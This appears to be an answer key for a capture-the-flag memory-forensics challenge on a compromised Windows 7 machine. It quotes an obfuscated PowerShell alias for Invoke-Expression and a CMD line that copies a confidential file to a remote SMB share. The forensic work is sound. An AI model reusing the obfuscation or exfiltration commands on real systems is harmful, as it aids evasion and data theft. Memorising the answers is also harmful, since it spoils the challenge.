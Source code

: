 **Task 1:** What is the Operating System of the machine?
Windows 7

**Task 2:** When was the memory dump created?
2022-12-19 16:07:30

**Task 3:** After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?
(gv '*MDR*').naMe[3,11,2]-joIN''

**Task 4:** The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?
Invoke-Expression

**Task 5:** A CMD command was executed to attempt to exfiltrate a file. What is the full command line?
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt

**Task 6:** Following the above command, now tell us if the file was exfiltrated successfully?
NO 

**Task 7:** The attacker tried to create a readme file. What was the full path of the file?
C:\Users\Public\Office\readme.txt

**Task 8:** What was the Host Name of the machine?
USER-PC

**Task 9:** How many user accounts were in the machine?
3

**Task 10:** In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?
`\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt`

**Task 11:** A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?
b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1

**Task 12:** Following the previous question, what is the Imphash of the malicous file you found above?
Imphash is short for import hash.
d3b592cd9481e4f053b5362e22d61595

**Task 13:** Following the previous question, tell us the date in UTC format when the malicious file was created?
2022-06-22 11:49:04

**Task 14:** What was the local IP address of the machine?
192.168.0.104

**Task 15:** There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?
cmd.exe

**Task 16:** Attacker might have used an email address to login a social media. Can you tell us the email address?
mafia_code1337@gmail.com

**Task 17:** Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?
Wazuh

**Task 18:** The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?
csrsss.exe